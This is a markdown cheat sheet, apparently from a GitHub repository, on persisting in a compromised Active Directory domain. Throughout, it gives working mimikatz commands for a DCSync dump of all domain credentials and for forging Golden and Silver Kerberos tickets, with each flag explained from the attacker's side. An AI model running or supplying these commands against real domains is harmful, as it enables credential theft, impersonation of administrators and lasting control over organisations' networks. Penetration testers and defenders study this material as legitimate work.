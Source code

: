 
# Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/krbtgt** -The NTLM hash of the KRBTGT account.
  - **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
  - **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
 - after executing this, the ticket is loaded into memory and we can access privileged resources in the domain

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
  - **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
  - **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
- after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain

